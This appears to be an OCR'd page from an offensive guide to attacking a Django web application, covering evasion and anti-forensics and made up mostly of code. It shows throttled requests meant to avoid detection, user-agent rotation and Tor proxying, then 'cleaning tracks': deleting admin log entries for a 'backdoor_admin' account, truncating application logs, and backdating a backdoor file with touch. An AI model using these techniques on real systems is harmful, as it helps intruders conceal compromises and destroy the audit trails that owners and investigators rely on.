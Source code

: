 **Slow and Low:**
```python
import time
import random

def rate_limited_request(url, max_rpm=60):
    """
    Make requests with random delays to avoid detection
    """
    delay = (60 / max_rpm) + random.uniform(0, 5)
    time.sleep(delay)
    return requests.get(url)
```

**Rotate User Agents:**
```python
user_agents = [
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64)...',
    'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7)...',
    # ... more
]

headers = {'User-Agent': random.choice(user_agents)}
requests.get(url, headers=headers)
```

**Use Proxies:**
```python
proxies = {
    'http': 'socks5://127.0.0.1:9050',  # Tor
    'https': 'socks5://127.0.0.1:9050',
}

requests.get(url, proxies=proxies)
```

---

### 9.2 Cleaning Tracks

**Clear Django Logs:**
```python
# Via Django shell
from django.contrib.admin.models import LogEntry
LogEntry.objects.filter(user__username='backdoor_admin').delete()

# Clear application logs
import os
os.system('truncate -s 0 /var/log/django/app.log')
```

**Modify Timestamps:**
```bash
# Make backdoor file appear old
touch -t 202201010000 /path/to/backdoor.py
```

---